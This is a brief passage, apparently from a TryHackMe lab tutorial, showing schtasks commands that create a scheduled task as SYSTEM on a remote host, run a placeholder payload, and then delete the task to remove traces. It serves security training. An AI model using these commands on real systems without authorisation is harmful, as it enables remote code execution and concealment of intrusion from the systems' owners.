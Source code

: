 
To create a task named THMtask1, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

```
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

